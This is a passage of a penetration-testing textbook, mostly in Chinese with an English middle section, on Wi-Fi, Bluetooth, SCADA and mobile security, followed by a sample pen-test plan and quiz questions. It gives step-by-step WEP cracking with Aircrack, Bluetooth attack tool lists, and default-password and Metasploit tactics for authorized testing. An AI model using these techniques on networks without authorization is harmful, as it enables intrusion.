有线等效保密（WEP）使用流密码 RC4 来保护数据，并使用 CRC-32 校验和进行错误检查。标准 WEP 使用 40 位密钥（称为 WEP-40）与 24 位初始化向量（IV），有效构成 64 位加密。128 位 WEP 使用 104 位密钥与 24 位 IV。

由于 RC4 是流密码，相同的流量密钥绝不能使用两次。IV 的目的是防止任何重复，它作为明文传输，但 24 位 IV 不足以在繁忙的网络上确保这一点。IV 的使用方式也使 WEP 容易受到相关密钥攻击。对于 24 位 IV，重复相同 IV 的概率在 5,000 个数据包后为 50%。

## WPA
Wi-Fi 受保护访问（WPA）使用临时密钥完整性协议（TKIP）。TKIP 是每数据包 128 位密钥，这意味着它为每个数据包动态生成新的密钥。WPA 工作于两种模式：

- **WPA-Personal：** 也称为 *WPA-PSK*（预共享密钥）模式。专为家庭和小型办公网络设计，不需要身份验证服务器。每个无线网络设备都使用相同的 256 位密钥通过访问点进行身份验证。
- **WPA-Enterprise：** 也称为 *WPA-802.1x* 模式。专为企业网络设计，需要 RADIUS 身份验证服务器。身份验证使用可扩展身份验证协议（EAP）。EAP 有多种实现，例如 EAP-传输层安全（EAP-TLS）和 EAP-隧道传输层安全（EAP-TTLS）。

## WPA2
WPA2 基于 IEEE 802.11i 标准。它是三种协议中唯一完全实现 802.11i 标准的协议。如果你读过第 3 章“密码学”，其中的许多内容对你来说会很有意义。

WPA2 使用高级加密标准（AES）使用计数器模式-密码块链接（CBC）-消息认证码（MAC）协议（CCMP），为无线帧提供数据保密性、数据来源认证和数据完整性。除非有令人信服的理由不这样做，否则应始终使用 WPA2。

## BSSID
在考虑 802.11 Wi-Fi 设备时，最有趣的信息是基本服务集标识符（BSSID）。无线网络具有具有 ID 的基本服务集，即 BSSID。该 BSSID 在制造时预设，是无线接入点的 MAC 地址。如果你在一份日志中拥有 BSSID 但不知道该无线接入点的位置，有网站可以让你使用 BSSID 查询地理位置，例如 https://wigle.net/。这只是 BSSID 的一种用途。

## 其他安全措施
实施 WPA2 只是保护 Wi-Fi 网络的第一步。还应采取其他几个步骤。其中之一是拥有一个经常更改的强管理员密码。作为渗透测试人员，你明显需要测试的是你的客户是否使用默认密码。这种情况屡见不鲜。

另一个安全措施是 MAC 过滤。大多数 Wi-Fi 接入点可以配置为仅允许 MAC 地址在已批准设备列表中的设备连接到接入点。图 18-1 显示了 Linksys 路由器的 MAC 过滤。


图 18-1 MAC 过滤。

不幸的是，与所有安全措施一样，这也不完美。首先，这仅适用于客户端设备相对稳定的环境。如果经常有新设备连接，逐个添加每个新设备的 MAC 地址会很麻烦。其次，可以伪造 MAC 地址并规避此安全措施。

还必须保护无线接入点的接口。这些设备都有 Web 界面。几个简单的规则可以使其更安全。首先，它们应仅使用 https，而不是 http。这样发送到和来自 WAP 的所有管理命令都会被加密。其次，它们应仅通过有线连接访问，而不是无线。

这些都是渗透测试中应检查的项目。尝试登录 WAP 管理屏幕。如果你甚至可以通过无线访问它，那就是一个安全漏洞（即使你无法登录）。然后尝试使用默认密码登录。本章后面我们将讨论 Wi-Fi 的黑客技术，但即使没有这些，你也可以对 WAP 进行基本测试。

## 红外
红外线不再像过去那样广泛使用。原因是它依赖于视线通信。任何障碍都可能阻断通信。今天红外线的唯一用途是短距离、有限应用的用途；例如，同步两个设备。红外线的范围也相当短。

## 蓝牙
蓝牙不像红外线那样依赖视线，但它也有相对较短的距离。这意味着它可能不适用于通用无线网络；然而，对于连接设备彼此之间来说非常有用。

它由蓝牙特别兴趣小组开发，该小组包括西门子、英特尔、东芝、摩托罗拉和爱立信在内的 1,000 多家公司。

IEEE 将蓝牙标准化为 IEEE 802.15.1，但不再维护该标准。蓝牙的主要优势是其发现范围内蓝牙设备的能力。

名称来源于 10 世纪丹麦国王哈拉尔蓝牙。他统一了丹麦的部落；因此暗示蓝牙统一了通信协议。他的名字有不同的解释，一种说法是他有一颗发蓝的坏牙（即腐烂）。另一种解释是他经常穿蓝色衣服。许多文本和课程教授蓝牙的最大范围为 10 米。这仅适用于蓝牙 3.0。表 18-1 总结了蓝牙各个版本的范围和带宽。

表 18-1 蓝牙版本的范围/带宽

| 版本 | 带宽/范围 |
|---|---|
| 3.0 | 25 Mbps；10 米（33 英尺） |
| 4.0 | 25 Mbps；60 米（200 英尺） |
| 5.0 | 50 Mbps；240 米（800 英尺） |

蓝牙设计为分层协议架构。这意味着使用如以下列表所述的协议层。所有蓝牙设备都必须具有的强制协议是 LMP、L2CAP 和 SDP。

- **LMP：** 链路管理协议用于设置和控制两个设备之间的通信链路。
- **L2CAP：** 逻辑链路控制和适配协议用于在两个设备之间复用多个连接。
- **SDP：** 服务发现协议是两个设备了解各自提供的服务的方式。
- **RFCOMM：** 无线电频率通信，顾名思义，提供数据流。在这种情况下，它是一个虚拟串行数据流。
- **BNEP：** 蓝牙网络封装协议用于通过 L2CAP 通道传输其他协议。它封装了其他协议。
- **AVCTP：** 音频/视频分发传输协议用于通过 L2CAP 通道传输音频/视觉控制命令。
- **HCI：** 主机控制器接口是指主机堆栈（即操作系统）与控制器（实际的蓝牙电路）之间任何标准化的通信。
- **OBEX：** 对象交换促进设备之间二进制对象的传输。它最初为红外线设计，但现在被蓝牙使用。这用于访问电话簿、打印和其他功能。它使用 RFCOMM 进行通信。

当你通过蓝牙将设备与另一台设备配对时，它们会交换一些信息，包括设备名称和服务列表。

蓝牙安全定义了四种模式。显然，你的手机使用哪种模式将极大地影响哪些攻击会起作用以及哪些不会。

- **Security Mode 1** 是非安全的。
- **Security Mode 2** 控制对某些服务的访问并使用安全管理器。但这仅在建立链路后才启动。模式 2 有三个级别：
  - **Level 1：** 对所有设备开放，默认级别。
  - **Level 2：** 仅身份验证。
  - **Level 3：** 需要身份验证和授权。必须输入 PIN 号码。
- **Security Mode 3** 在建立任何链路之前启动安全程序。它支持身份验证和加密。NIST 认为这是最安全的。
- **Security Mode 4** 需要经过身份验证的链路，但与模式 2 一样，仅在建立链路后才启动身份验证和加密。

蓝牙对于渗透测试人员来说可能比你想象的更重要。大多数笔记本电脑都启用了蓝牙。这为笔记本电脑提供了一个可能的连接途径。这应该被测试。许多组织还阻止各种计算机连接（CD/DVD、USB 等），以防止用户安装文件或外泄数据。如果渗透测试中这是个问题，那么你还应测试这些 USB 被阻止的同一台计算机是否启用了蓝牙。这将提供另一个外泄数据或安装软件的途径。


## 其他无线形式

长期以来，上述类型的无线连接是唯一广泛使用的无线连接；然而，情况已经改变。

ANT+ 是一种无线协议，常用于生物传感器或运动应用等传感器数据。

近场通信（NFC）在两个设备距离在4厘米（1.6英寸）以内时工作。它在全球通用的免许可射频ISM频段13.56 MHz上运行，采用ISO/IEC 18000-3空中接口，速率范围为106至424 kbit/s。NFC在ECMA-340和ISO/IEC 18092中标准化。

这两种技术可能与你的渗透测试无关。但你至少应确定这些技术是否在客户网络中使用，然后评估它们是否应纳入渗透测试范围。

## Wi-Fi 黑客攻击

正如你所知，渗透测试涉及应用黑客技术。因此，在本节中让我们来看一些Wi-Fi黑客工具和技术。

### NetStumbler

NetStumbler工具可用于查找Wi-Fi网络并了解有关它们的信息。它可从 http://www.netstumbler.com/downloads/ 免费下载。它具有非常易于使用的界面，如图18-2所示。


图18-2 NetStumbler。

该工具允许你扫描附近的Wi-Fi接入点并获取有关它们的详细信息。

### 使用Aircrack攻击Wi-Fi

第一步是使用CommView扫描无线接入点。你可以从 http://www.tamos.com/download/main/ca.php 下载此工具。图18-3显示了CommView。


图18-3 CommView。

现在你选择一个想要攻击的无线接入点。在图18-4中，我们选择了一个运行WEP的接入点。使用WEP你有很高的成功概率。使用WPA或WPA2，你用此方法成功的几率非常低。


图18-4 选择一个WAP。

让它捕获一段时间的数据包。数千个数据包是一个不错的开始，越多越好。你可以在图18-5中看到数据包捕获。


图18-5 数据包捕获。

现在通过 **文件 > 导出** 将日志导出为.cap文件。在较新版本中是 **文件 > 将日志另存为**。现在你需要从 https://www.aircrack-ng.org/downloads.html 下载Aircrack。接下来打开Aircrack并选择WEP（如果你的目标使用WEP；如果不是，请选择适合目标的协议）。你可以在图18-6中看到这一点。


图18-6 开始攻击WEP。

然后选择正确的文件（你刚导出的那个）并点击 **启动**。如果数据包足够多且信息足够，它将破解WEP。对于WPA和WPA2，你可能不会成功。如果成功，命令窗口将启动并显示 **已找到密钥**。

### Cain and Abel

你在本书前面看到过Cain and Abel作为Windows密码破解器。当时我提到Cain and Abel还有许多其他功能。其中一个功能是Wi-Fi扫描器，可尝试破解Wi-Fi密码。你可以在图18-7中看到Cain and Abel扫描无线接入点。


图18-7 Cain and Abel。

关于WAP显示了大量信息，包括BSSID、信号、信道等。这些信息在尝试入侵WAP时可能很有用。

### AirJack和Kismet

AirJack可作为源代码下载，然后你必须自行编译。对于某些人来说，这可能比他们愿意花费的精力多一些。然而，AirJack是一个如此流行的工具，如果不介绍它，我就失职了。你可以从这里下载：https://sourceforge.net/projects/airjack/。

Kismet是另一个以源代码下载的工具，你必须自行编译。它可以从 https://www.kismetwireless.net/ 下载。这两种工具提供的功能与我们已讨论过的工具类似。我只是在这里列出它们作为你可能想要研究的替代工具。

### KRACK

在撰写本书期间，发现了一个针对WPA2的新漏洞，称为KRACK。它涉及WPA执行握手并建立共享密钥方式中的缺陷。该缺陷允许攻击者访问你的Wi-Fi。此攻击的完整概念验证可在 https://www.krackattacks.com/ 获得。这不仅重要是因为它对Wi-Fi网络构成的即时危险，而且因为它说明了为什么渗透测试人员必须不断学习。总会有新的漏洞可利用，以及新的对策来缓解这些攻击。你过时的知识将导致客户的安全漏洞。

## 大型主机和SCADA

第5章“恶意软件”讨论了专门攻击监控与数据采集（SCADA）系统的Stuxnet病毒。更具体地说，它攻击了用于铀精炼的系统。在本节中，我们将首先讨论SCADA系统的基础知识，然后深入探讨渗透测试此类系统的相关问题。

### SCADA基础

SCADA系统在工业系统中经常使用。这可能包括水处理设施、制造工厂和类似环境。这些安装有复杂的设备，通常使用可编程逻辑控制器（PLC）半自动运行。SCADA的目的是能够管理所有这些设备。你应熟悉SCADA系统的一些基本组件：

- 远程终端单元（RTU）连接到传感器以发送和接收数据，并且通常具有嵌入式控制功能。
- 可编程逻辑控制器（PLC）是实际位于被管理设备中的控制器。
- 通常使用遥测系统将PLC和RTU与控制中心连接起来。
- 数据采集服务器是一种软件服务，它使用工业协议通过遥测将软件服务与RTU和PLC等现场设备连接起来。
- 人机界面或HMI是向人工操作员呈现处理后数据的装置或设备。
- 历史记录器是一种软件服务，它在数据库中累积带时间戳的数据、布尔事件和布尔报警。
- 监控（计算机）系统。

PLC将特定于所讨论的特定类型设备。监控计算机以及历史记录器和HMI将特定于各个SCADA厂商。一些SCADA系统如下：

- Eclipse NeoSCADA是一套可配置以适应你自己组织的工具。它是开源的，这使其价格实惠。但需要大量的配置。你可以在 https://www.eclipse.org/eclipsescada/ 了解更多信息。
- WinCC由西门子生产。它不是开源产品。它在工业界享有很高的声誉。你可以在 http://w3.siemens.com/mcms/human-machine-interface/en/visualization-software/scada/pages/default.aspx 了解更多信息。
- Inductive Automation的Ignition适用于工业系统，并在许多不同的安装中使用。你可以在 https://inductiveautomation.com/what-is-scada 了解更多关于此系统的信息。
- Wonderware为不同环境创建了许多SCADA解决方案。你可以在 https://www.wonderware.com/hmi-scada/ 了解这些产品的详细信息。

我们将在本节中查看一些一般的SCADA渗透测试主题。然而，SCADA渗透测试的第一步是审查该特定SCADA系统的文档。

### SCADA渗透测试

幸运的是，我们不必为SCADA渗透测试制定自己的指南。就像信用卡有PCI DSS标准一样，SCADA也有安全标准。该标准是NIST特别出版物800-82修订版2，《工业控制系统（ICS）安全指南》。该文档可从 http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-82r2.pdf 下载。

该文档是了解SCADA的绝佳起点。它首先对SCADA系统进行了概述，值得你花时间阅读。随后文档直接进入工业系统的风险评估。

该文档/标准并未定义如何进行渗透测试；然而，它非常具体地定义了必须存在哪些安全措施。而渗透测试应测试这些项目。标准中应存在于任何工业系统中的一些基本项目包括：

- 防火墙，具有针对特定服务的特定防火墙规则
- 远程访问服务的安全性（telnet、TFTP等）
- 纵深防御架构
- 网络分段
- 必须存在特定控制

对任何SCADA系统进行渗透测试的基本流程如下：

- **步骤1。** 审查该特定SCADA系统的文档。确保你熟悉该系统的一般操作。这应包括搜索该特定系统中任何已知漏洞，以及搜索任何当前SCADA威胁或恶意软件。
- **步骤2。** 审查800-82修订版2标准。列出需要存在的安全措施。
- **步骤3。** 针对需要存在的所有协议/设备/控制进行测试并逐一测试它们。


Now this three-step process may appear simple, but that is somewhat deceptive. You can likely already see that step 1 is going to entail some time-consuming research. Step 2 is rather straightforward, and should be almost identical for all your SCADA penetration tests. Step 3 could include any of the penetration testing topics we have covered in the preceding 17 chapters. Given that Chapters 13–16 focused on Metasploit, you will be pleased to know there are Metasploit modules for SCADA. Here are some resources:

- https://scadahacker.com/resources/msf-scada.html
- https://www.rapid7.com/about/press-releases/new-metasploit-module-to-exploit/
- http://www.securityweek.com/rapid7s-metasploit-get-scada-exploits

These sources can assist you in leveraging your newfound Metasploit skills to penetration test SCADA systems.

In addition to the material already covered in this section, there are a few other standards that might be of interest in specific environments:

- North American Electric Reliability Corporation (NERC) has standards for electrical systems. These can be accessed at http://www.nerc.com/pa/Stand/Pages/Project-2014-XX-Critical-Infrastructure-Protection-Version-5-Revisions.aspx.
  - NERC CIP (Critical Infrastructure Protection) 007-6 in particular addresses the patching of all systems.
  - The newest version of NERC 1300 is called CIP-002-3 through CIP-009-3.
- “Firewall Deployment for SCADA and Process Control Networks,” https://www.ncsc.gov.uk/content/files/protected_files/guidance_files/2005022-gpg_scada_firewall.pdf.
- NIST 800-115 is a general testing standard, at https://csrc.nist.gov/publications/detail/sp/800-115/final.

The issue is this: you will use the same testing skills you have developed throughout this book. However, you will need to familiarize yourself with SCADA in general, and your particular system in particular, in order to perform a successful penetration test of a SCADA system.

## Mainframes

Contrary to what you may have heard, mainframes are not dead. They do still exist. While it is true that there are far fewer security issues with mainframes, it would be incorrect to assume there are no security issues. And any system with vulnerabilities needs testing. Mainframe penetration testing includes both the operating system and the application. A few operating systems are:

- AS/400
- OS/390
- Z/OS

There are likely to be critical applications running on those systems, such as databases. Mainframe penetration testing is going to be quite similar to SCADA penetration testing. The first step will be to familiarize yourself with the target system and specific vulnerabilities to that system. Then you will use skills you have acquired throughout this book to attempt to exploit those vulnerabilities.

## Mobile Pen Testing

Mobile device penetration testing involves both cellular technology and Bluetooth. Earlier in this chapter we discussed Bluetooth technology. Before we delve into penetration testing for mobile devices let us first look at cellular technology. The first step is to get familiar with cellular terminology.

## Cellular Terminology

A mobile switching center (MSC) is the switching system for the cellular network. MSCs are used in 1G, 2G, 3G, and Global System for Mobile (GSM) communications networks. You will learn about 3G and GSM networks later in this section. The MSC processes all the connections between mobile devices and between mobile devices and landline phones. The MSC is also responsible for routing calls between base stations and the public switched telephone network (PSTN).

The base transceiver station (BTS) is the part of the cellular network responsible for communications between the mobile phone and the network switching system. The base station system (BSS) is a set of radio transceiver equipment that communicates with cellular devices. It consists of a BTS and a base station controller (BSC). The BSC is a central controller coordinating the other pieces of the BSS.

The home location register (HLR) is a database used by the MSC that contains subscriber data and service information. It is related to the visitor location register (VLR), which is used for roaming phones.

The subscriber identity module (SIM) is a memory chip that stores the International Mobile Subscriber Identity (IMSI). It is intended to be unique for each phone and is what you use to identify the phone. Many modern phones have removable SIMs, which means you could change out the SIM and essentially have a different phone with a different number. A SIM card contains its unique serial number—the ICCID—the IMSI, security authentication, and ciphering information. The SIM will also usually have network information, services the user has access to, and two passwords. Those passwords are the personal identification number (PIN) and the personal unlocking code (PUK).

The following is a list of cellular network types/technologies:

- **Global System for Mobile (GSM) communications:** GSM communications is a standard developed by the European Telecommunications Standards Institute (ETSI). Basically, GSM is the 2G network.
- **Enhanced Data Rates for GSM Evolution (EDGE):** EDGE does not fit neatly into the 2G-3G-4G continuum. It is technically considered 2G+, but was an improvement on GSM (2G), so it can be considered a bridge between 2G and 3G technologies.
- **Universal Mobile Telecommunications System (UMTS):** UMTS is a 3G standard based on GSM. It is essentially an improvement of GSM.
- **Long Term Evolution (LTE):** LTE is a standard for wireless communication of high-speed data for mobile devices. This is what is commonly called 4G.

Currently, 5G is still not being utilized, so it is not something we will discuss in this chapter. However, in the next few years it should begin being rolled out, and at that point, you will need to familiarize yourself with it.

## Bluetooth Attacks

Bluetooth attacks are quite common on cellular phones, and perhaps the most important for you to test. Let’s begin with a brief summary of the most common Bluetooth attacks:

- Blue snarfing is a class of attacks wherein the attacker attempts to get data from the phone.
- Bluejacking is sending unsolicited data to a phone, via Bluetooth. This is sometimes used to send spam instant messages.
- Blue smacking is a denial of service attack wherein the target is flooded with packets.
- Blue bugging remotely accesses phone features. This may seem very similar to Blue snarfing, but the goal with Blue bugging is not to get data, but to activate certain phone features.
- Blue sniffing is the same thing as war driving. The attacker is trying to find available Bluetooth devices to attack.
- Blue printing gets its name from footprinting. In the case of Blue printing, the attacker is trying to get information about the target phone.

## Bluetooth/Phone Tools

There are a number of tools that an attacker can use to facilitate a Bluetooth attack. You should be familiar with at least some of these. They can be a useful part of your penetration test. Some tools are only for Android, others for iPhone.

## BH BlueJack

This tool is available as open source (i.e. free) and is written in Python. It allows you to attempt Bluejacking with the click of a button. You can download it from http://www.bluejackingtools.com/symbian/bh-bluejack-bluejacking-software/.

## BlueBorne

This is a vulnerability scanner for Bluetooth. It is available in the Google Play store for Android phones, and you can see it here: https://play.google.com/store/apps/details?id=com.armis.blueborne_detector&hl=en. The vendor also has a white paper on Bluetooth vulnerabilities, which you can view here: http://go.armis.com/hubfs/BlueBorne%20Technical%20White%20Paper.pdf. Figure 18-8 shows this tool.


FIGURE 18-8 BlueBorne.

## BLE Scanner

This tool is for the iPhone and is a free download. The first thing it will do is show you nearby Bluetooth devices as shown in Figure 18-9.


FIGURE 18-9 BLE Scanner.

Then simply click the **Connect** button to attempt to connect to that device as shown in Figure 18-10.


FIGURE 18-10 BLE Connect.

## Pally

Pally is another Bluetooth scanner for the iPhone. It has an easy to use interface and will provide you basic information about nearby Bluetooth devices as shown in Figure 18-11.


图 18-11 Pally Scanner.

可以找到许多其他工具用于扫描蓝牙，甚至尝试入侵蓝牙。对渗透测试人员来说，拥有多种工具和技术至关重要。渗透测试的整个目标就是尝试你认为攻击者会使用的相同技术。以下是一些其他工具的列表：

- PhoneSnoop
- BlueScanner
- BH BlueJack
- Bluesnarfer
- btCrawler
- Bluediving
- Bloover II
- btscanner
- CIHwBT
- BT Audit
- Blue Alert
- Blue Sniff

## 摘要

在本章中，你已学习了测试 Wi-Fi 的基本技术以及 Wi-Fi 的一些基本背景技术。你还被介绍了 SCADA 系统及其测试方法。最后，我们讨论了蜂窝和蓝牙攻击。这些每个领域可能都需要一些额外的学习才能真正熟练，具体取决于你的渗透测试对这些技术的侧重点程度。

总体而言，如果你进行的是通用网络渗透测试，而上述其中一种技术只是该测试的一小部分，你可能可以使用本章中的材料来充分测试系统。这包括本章中引用的参考资料。然而，如果你的测试主要集中在一项技术上，例如 SCADA，你将需要更详细地研究这些特定系统，以便进行成功的渗透测试。

## 测试你的技能

## 多项选择题

1. 以下哪一项是在 Wi-Fi 渗透测试中最基本、最根本需要验证的事情？
   A. 管理界面的连接是加密的。
   B. 未使用默认密码。
   C. 正在使用 MAC 过滤。
   D. 密码会定期更改。

2. 哪个 Wi-Fi 标准首次引入了 MIMO？
   A. 802.11n-2009
   B. 802.11g
   C. 802.11ac
   D. 802.11n

3. WEP 最显著的弱点是什么？
   A. 没有显著弱点；WEP 是首选模式。
   B. 它使用有缺陷的算法。
   C. 它重复使用初始化向量。
   D. 它具有较短的管理密码。

4. 你正在尝试为客户进行蓝牙渗透测试。你试图在不特意获取数据的情况下访问手机功能。以下哪项最能描述此过程？
   A. Bluejacking
   B. Bluesnarfing
   C. Bluesmacking
   D. Bluebugging

5. 你正在测试与心脏监护仪一起使用的无线技术。用于无线连接最可能的 technology 是什么？
   A. ANT+
   B. Infrared
   C. Cellular
   D. Bluetooth

6. 哪种标准最适用于 SCADA 渗透测试？
   A. NSA-IAM
   B. NIST 800-34
   C. NIST 800-82
   D. PCI DSS

## 项目

## 项目 1：Bluetooth 扫描

为你的手机下载一个蓝牙扫描器并扫描附近的蓝牙设备。记录你可以在这些设备上收集的数据。然后找到一位你认识的设备所有者，并在获得其许可后尝试连接到其设备。

## 项目 2：Wi-Fi

使用本章前面讨论的 CommView/Aircrack 方法，你将在实验室中破解一个 WAP。首先设置一个使用 WEP 的 WAP。然后让其他人连接到该 WAP 并开始进行 Internet 活动（访问网站、下载文件等）。在活动进行的同时，使用本章前面概述的步骤尝试入侵 Wi-Fi。

## 一个示例渗透测试项目

## 章节目标

阅读本章并完成练习后，你将能够做到以下几点：

- 规划一次小型网络渗透测试
- 执行测试前活动
- 编写报告

在你阅读本书的旅程中，你应该已经熟悉了各种技术以及各种渗透测试标准。本章与前几章会有所不同。我们将逐步进行一个小型网络的渗透测试。这将使你能够将所学的一切整合到一个项目中。

本章与前几章有几点不同。首先，只有一次章节末项目。它是本章假设的缩小版，适用于小型实验室环境。整章都是一个项目。其次，没有章节末问题。我们只是将到目前为止所学的内容付诸实践。

## 渗透测试大纲

你使用的测试和工具将取决于目标网络、工作范围和被测试的项目。为说明目的，我们将使用一家假设的公司。该公司是 ACME Bookkeeping。它有 1 台网关路由器、30 台工作站、3 台服务器和 1 台 Web 服务器。我们假设进行白盒测试。本章将逐步介绍你应采取的渗透测试该公司的步骤。我们还将为你提供该公司网络中发现的假设问题。

这次渗透测试相当简单。这是故意的。它允许渗透测试新手熟悉流程。

## 测试前活动

执行此渗透测试的第一步是与 ACME Bookkeeping 的某位有权威的人会面。在那次会议上你需要请求以下信息：

1. 服务器和工作站上运行的操作系统是什么？
2. 识别关键应用程序。
3. 列出过去 12 个月内任何已怀疑或已确认的安全漏洞或问题。
4. 识别适用于该公司的任何监管问题。
5. 项目范围是什么？他们希望测试每一台机器，还是只测试样本？他们想要物理渗透测试吗？他们想要社会工程学吗？
6. 确定参与规则。服务器是否只能在非工作时间进行测试？
7. 如果之前进行过安全审计、渗透测试或漏洞扫描，你希望查看这些。
8. 如果之前有过事件报告，你也希望查看这些。

最重要的是，在开始任何渗透测试之前，请确保你已获得公司中有权授权渗透测试的人员的书面授权。

对于我们对 ACME Bookkeeping 的假设测试，我们假设以下答案：

1. 除 Web 服务器外的所有服务器均运行 Windows Server 2016。Web 服务器运行 Ubuntu Linux 16.04 并使用 Apache Web 服务器。
2. Web 服务器托管一个处理机密信息的客户门户应用程序。其中一台服务器运行 SQL Server 2012。
3. 过去 12 个月内发生了两次病毒爆发和一次对 Web 服务器的可疑 DoS 攻击。
4. 没有监管问题。
5. 所有服务器和 10% 的工作站将被测试。不进行物理渗透测试或社会工程测试。
6. 所有测试都应在正常工作时间之外进行。
7. 如果可能，请让客户公司在你开始测试前备份所有敏感系统。然后如果出现问题，可以恢复。

现在你已经确定了此测试所需的信息，请确保所有这些内容都在你和客户签署的协议中。

当你开始测试时，请记住经常拍摄工具和攻击的屏幕截图。详细记录你正在做什么以及结果是什么。你需要非常详细的信息，以便在完成后编写有效的报告。

## 外部

本节涉及从组织外部远程进行的扫描活动。你不需要在现场。

## 被动扫描

接下来，我们开始被动扫描。使用 netcraft.com、shodan.io、builtwith.com 和 archive.org 来尽可能多地了解公司使用的技术。特别注意 shodan.io。它可能非常有信息量。记录你为 Web 服务器找到的所有详细信息（builtwith.com 和 netcraft.com），以及 shodan.io 识别出的任何漏洞。

现在是时候在网上搜索该公司名称了。检查 LinkedIn、Twitter 和 Facebook。你可能希望在公司电话号码、URL 和电子邮件地址上使用 Maltego。这可以让你了解任何关联实体（个人或公司），以及公司在公开领域中的任何信息。这也是使用网络威胁情报网站如 threatcrowd.org 的好时机。

这也是研究该网络所使用操作系统的已知漏洞的适当阶段。我们知道他们有 Ubuntu Linux 和 Windows Server 2016。使用 Google、threatpost.com、https://cve.mitre.org/ 等在网上搜索。

## 主动扫描

我们现在开始主动扫描目标网络的公共面向部分。这将从使用诸如 Nmap 之类的工具扫描网关路由器和 Web 服务器开始。注意任何开放的服务和端口。如果公司使用 Wi-Fi，尝试使用默认密码连接到 WAP。

这也是我们运行外部漏洞扫描的时候。你应该在 Web 服务器上运行两个不同的扫描器。我推荐 Vega 和 OWASP ZAP，但你也可以使用任何两个你喜欢的。

这也是利用你在第 13 章“介绍 Metasploit”中学到的 Metasploit 扫描的合适时机。有 SSL、匿名 FTP、SQL Server 等扫描。在任何公共面向设备上运行这些扫描，以确定是否有任何服务暴露给外部世界，以及这些服务是否可被利用。

## 实际入侵

现在是时候尝试实际入侵每个外部面向接口了。我们将从 Web 服务器开始。取出你发现的每个漏洞并尝试使用多种技术入侵它们。假设服务器容易受到 SQL 注入攻击。你将：

1. 尝试手动使用 SQL 注入
2. 使用 Burp Suite 等工具尝试 SQL 注入

对所有已识别的漏洞都进行手动和半自动攻击。

现在我们对网关路由器重复该过程。我们首先尝试登录它，猜测密码等。尝试多种技术来获得对路由器的访问权限并记录结果。


然后我们还有最后一个面向公众的接口：WAP。你应尝试登录管理界面，破解安全协议（WEP、WPA 或 WPA2），并利用你已识别的任何其他漏洞。

在完成预 engagement 活动和第一阶段——被动扫描后，主动扫描是下一步。在像本场景描述这样的小型网络中，主动扫描将自然过渡到第三阶段——入侵。通常最容易从外部测试开始。

对于全部三个接口，有几个步骤你应始终执行：

- 1. 除其他入侵尝试外，使用任何合适的 Metasploit 攻击。当你识别出漏洞时，可以利用该漏洞查找 Metasploit 模块。然后在目标上使用这些模块。
- 2. 在所有公共接口上始终尝试默认密码。
- 3. 在所有公共接口上始终尝试使用某种密码破解工具。

根据测试性质和 engagement 规则，你还可以在此阶段向部分员工发送钓鱼邮件。这些可以使用无害的病毒，如你在第 5 章“Malware”中看到的那样；例如，仅使用 Windows 语音引擎说“不要打开附件”的病毒。

此时你已完成此渗透测试的外部部分。

## Internal

现在转向内部。此部分在网络内部进行。内部测试有两个原因。第一个原因是某些漏洞只能从网络内部发现。另一个原因是必须始终关注内部威胁。

从漏洞扫描开始。由于此网络主要为 Microsoft，MBSA 将是运行在网络上的合理工具。你还应考虑更强大的工具，如 Nessus。你应再次运行第 13 章中的 Metasploit 扫描。

你可能会从内部扫描中获得比外部扫描更多的结果。你还希望在内部再次运行 Nmap。当你在外部执行 Nmap 时，你也更可能从内部扫描中获得更多结果。

现在，根据 engagement 规则，你应尝试入侵每台服务器，以及 10% 的工作站（3 台工作站）。这将利用你在第 6 章“Hacking Windows”中学到的所有 Windows 黑客技术。尝试访问共享，尝试密码破解，尝试利用任何已知漏洞。

在此内部阶段，Metasploit 再次非常有用。在各种机器上尝试几种 Metasploit 攻击，包括需要用户点击链接的攻击。这将同时测试钓鱼和 Metasploit。

不要忘记网络上的其他设备，例如打印机。尝试使用默认密码通过 Telnet 和 SSH 进入这些设备。还可能存在内部路由器或交换机，因此不要忘记检查它们。

HP 打印机具有向打印机发送电子邮件的机制。你可以通过两种不同方式找到打印机的电子邮件地址。第一种方法是登录 ePrintCenter.com 并在打印机的页面上查找电子邮件地址。第二种方法是触摸前面板上的 ePrint 按钮，它将显示打印机的所有网络服务信息。你应测试此功能。当然，还要查明其他设备是否也有类似问题。

当然，你必须测试所使用标准所指示的所有项目。例如，PCI DSS 要求所有信用卡数据的外部通信必须加密。我建议你测试所有内部和外部数据通信。

## Optional Items

以下项目并不总是包含在渗透测试中，但你应考虑它们。我们在本章前面讨论了一些这些内容。

- 1. 向员工发送匿名钓鱼邮件，其会做一些无害的事情，例如将他们重定向到一个谴责他们不要点击链接的页面，或一个无害的恶意软件附件，只有一个语音或弹出窗口告诉他们不要下载附件。
- 2. 尝试通过电话或面对面进行社会工程学。
- 3. 渗透测试不是漏洞扫描，但可以包含漏洞扫描（如本书已所示）。同样，渗透测试不是审计，但有时可以包含审计的元素。考虑到这一点，你可能希望检查以下项目：
- a. 密码策略
- i. 锁定策略
- ii. 最低要求
- iii. 密码更改频率
- b. 网络上是否有任何未经授权的设备或软件？
- c. 是否仍有不再在组织内的员工的活跃账户？

总体而言，你可以自由地向此大纲添加项目，但不要删除任何项目。在测试系统时，可能会出现预项目活动中未预见的问题。你的自身经验也会教会你新的需要警惕的事情。新闻中可能出现本章撰写时尚未成为问题的新安全问题。请记住，本章描述的渗透测试适用于小型网络，应被视为成功渗透测试的基线或最低标准。你可以自由地对其进行补充和扩展。

## Report Outline

现在你已完成测试，你应该拥有来自工具的大量截图、大量笔记和大量数据。虽然重点应放在发现的问题上，但任何你测试过但对特定攻击不脆弱的内容也必须记录。报告的主要要求是清晰和详尽。以下大纲为你提供一些指导：

报告必须详尽，包含以下部分：

### I. Executive summary

1 至 3 段解释测试范围和结果。

### II. Introduction

这里描述测试目标和目的。本节还必须包括测试目标是什么、测试了什么以及排除了什么。这通常被称为工作范围。

本节应包括 engagement 规则以及任何过去的入侵或风险评估。此类过去活动应指导你的渗透测试的优先级排序。

### III. Detailed Analyses

这必须包括你进行的每项测试，最好附带逐步讨论和屏幕截图。细节应足够充分，以便任何有能力的专业技术人员都能重复你的测试。

如果你使用了生成报告的工具，则应将这些报告作为附录附上。大多数漏洞扫描器会生成报告。

当你识别出漏洞时，尽可能使用知名标准来识别它们。例如：

- Common Vulnerabilities and Exposures (CVE)
- National Vulnerability Database (NVD)
- Common Vulnerability Scoring System (CVSS)
- Bugtraq ID (BID)
- Open Source Vulnerability Database (OSVDB)

### IV. Conclusions & Risk Rating

提供你发现的内容和风险水平的一般描述。对网络的风险评级对客户可能有帮助。这不必是绝对的数学尺度。它可以只是低、中、高之类的描述。或者可以扩展为低、中、升高、高、极端。

### V. Remediation steps

